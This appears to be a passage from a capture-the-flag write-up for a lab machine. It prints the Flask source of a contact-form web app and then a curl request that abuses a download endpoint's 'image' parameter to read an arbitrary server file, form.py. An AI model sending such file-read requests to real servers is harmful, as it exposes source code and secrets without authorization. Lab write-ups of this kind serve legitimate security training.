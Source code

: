 ```python
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

@app.errorhandler(404)
def page_not_found(error):
    return render_template('404.html'), 404

@app.errorhandler(500)
def server_errorerror(error):
    return render_template('500.html'), 500

@app.errorhandler(400)
def bad_request(error):
    return render_template('400.html'), 400

@app.errorhandler(405)
def method_not_allowed(error):
    return render_template('405.html'), 405

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=80, debug=False)
```

From the imports, there is also a file `form.py` :

```shell
curl -s http://beta.only4you.htb/download --data "image=/var/www/only4you.htb/form.py"
```
